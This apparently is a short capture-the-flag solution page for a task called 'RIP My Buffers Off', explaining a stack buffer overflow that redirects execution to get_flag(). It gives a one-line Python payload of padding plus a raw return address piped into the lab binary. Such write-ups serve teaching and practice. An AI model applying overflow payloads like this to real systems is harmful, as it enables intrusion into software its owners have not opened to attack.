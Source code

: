 ```yaml
---
nav_order: 1
parent: 'Task: RIP My Buffers Off'
---
```


# Solution

The function address on the stack needs to be overwritten with the address of `get_flag()`.
Before reaching that, the payload needs to pass through some local variables and the EBP.

```sh
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*41 + b"\xed\x85\x04\x08")' | ./buff-ovf2
```

